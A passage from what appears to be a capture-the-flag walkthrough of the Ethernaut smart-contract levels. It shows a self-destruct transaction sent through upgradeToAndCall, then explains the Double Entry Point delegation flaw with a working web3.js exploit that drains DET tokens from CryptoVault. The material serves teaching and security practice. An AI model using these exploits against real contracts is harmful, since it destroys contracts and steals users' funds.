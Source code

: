 ```
// Execute self destruct
await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeToAndCallData})
```

Finally the engine is now destroyed and it can't be fixed cause all the upgrade logic is in the destroyed logic contract.

## 26. Double Entry Point

Here we can see that the natural behaviour of CryptoVault is to sweep any token except the DET token, but the problem is that by sweeping LegacyToken we are indirectly sweeping DET.

So that means that `player` has to find the bug in the `CryptoVault` and create a Forta bot to protect it from being drained by raising an alert if CryptoVault’s address is the param of `origSender`


First, let's look at the exploit that allows us to indirectly sweep DET by sweeping LegacyToken. 
If we check out the `sweepToken()` method  we notice that it restricts sweeping the underlying tokens with a `require` check - as expected. But see  `LegacyToken`'s `transfer()` method:
```solidity
if (address(delegate) == address(0)) {
    return super.transfer(to, value);
} else {
    return delegate.delegateTransfer(to, value, msg.sender);
}
```

This means that it actually calls `delegateTransfer()` method of some `DelegateERC20` contract. But here this `DelegateERC20` is the implementation of the underlying (`DET`) token itself! And `delegateTransfer()` simply takes the given parameters and tranfer the tokens according to them. 
The only limitation `delegateTransfer()` puts is that `msg.sender` must be the LegacyToken (`delegatedFrom` address) contract.

This just means that we can indirectly sweep the underlying tokens through `transfer()` of `LegacyToken` contract. We just have to call `sweepToken` with address of `LegacyToken` contract. Which would consequently cause the  `LegacyContract` to call the `DoubleEntryPoint`'s (DET token) `delegateTransfer()` method. 

```js
vault = await contract.cryptoVault()

// Check initial balance (100 DET)
await contract.balanceOf(vault).then(v => v.toString()) // '100000000000000000000'

legacyToken = await contract.delegatedFrom()

// sweepTokens(..) function call data
sweepSig = web3.eth.abi.encodeFunctionCall({
    name: 'sweepToken',
    type: 'function',
    inputs: [{name: 'token', type: 'address'}]
}, [legacyToken])

// Send exploit transaction
await web3.eth.sendTransaction({ from: player, to: vault, data: sweepSig })

// Check balance (0 DET)
await contract.balanceOf(vault).then(v => v.toString()) // '0'
```
